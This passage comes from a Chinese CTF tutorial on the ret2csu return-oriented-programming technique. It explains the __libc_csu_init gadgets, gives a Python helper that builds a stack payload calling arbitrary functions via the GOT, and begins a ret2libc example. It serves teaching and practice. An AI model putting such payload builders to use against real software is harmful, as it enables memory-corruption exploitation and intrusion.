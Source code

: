 很简单，就是依次从栈中弹出值来赋值给对应寄存器

能控制rbx、rbp、r12、r13、r14、r15寄存器

再看下面这段汇编

```plain
.text:0000000000401250 4C 89 F2                      mov     rdx, r14
.text:0000000000401253 4C 89 EE                      mov     rsi, r13
.text:0000000000401256 44 89 E7                      mov     edi, r12d
.text:0000000000401259 41 FF 14 DF                   call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:0000000000401259
.text:000000000040125D 48 83 C3 01                   add     rbx, 1
.text:0000000000401261 48 39 DD                      cmp     rbp, rbx
.text:0000000000401264 75 EA                         jnz     short loc_401250
```

将r14、r13、r12寄存器中的值分别赋值给rdx、rsi、rdi，然后执行r15+rbx\*8这个地址的函数

结合上面，是不是看出了什么？

对了，可以利用这两个gadget来进行一个任意存在的函数调用

r12对应edi、r13对应rsi、r14对应rdx，r15和rbx对应要调用的函数地址、rbp赋值成1即可

可以构造payload函数：

```plain
def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r15 should be the function we want to call()注意是用函数got表call！！
    # rdi=edi=r12
    # rsi=r13
    # rdx=r14
    # csu(0, 1, rdi, rsi, rdx, fun_got, last)
    payload = b""
    payload += p64(csu_end_addr) # pop rbx,rbp,r12,r13,r14,r15
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_front_addr)#call
    payload += b'\x00' * 0x38#csu后的汇编指令跳转   
    payload += p64(last)    
    return payload
```

ps：编译的libc版本不同各寄存器的对应关系也会不同，具体要看程序中该函数的构成。

### 例题：2023极客大挑战ret2libc

ida

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  write(1, "try this\n", 9uLL);
  vuln();
  write(1, "bye ~", 5uLL);
  return 0;
}
```
